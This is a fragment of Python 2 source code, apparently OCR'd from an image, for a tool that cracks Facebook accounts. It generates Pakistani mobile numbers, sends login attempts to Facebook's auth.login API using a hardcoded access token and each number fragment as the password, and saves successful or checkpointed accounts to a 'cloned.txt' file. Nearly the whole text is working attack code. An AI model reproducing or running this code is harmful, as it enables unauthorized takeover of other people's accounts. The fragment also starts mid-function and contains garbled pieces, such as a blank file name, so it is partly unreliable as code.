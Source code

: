     time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;93mCHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "Enter any Pakistan Mobile code Number"+'\n'
        print 'Enter any code 1 to 49'
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;96m Total ids number: '+xxx)
    jalan ('\033[1;95mCode you choose: '+c)
    jalan ("\033[1;94mWait A While Start Cracking...")
    jalan ("\033[1;93mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m(7Days) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user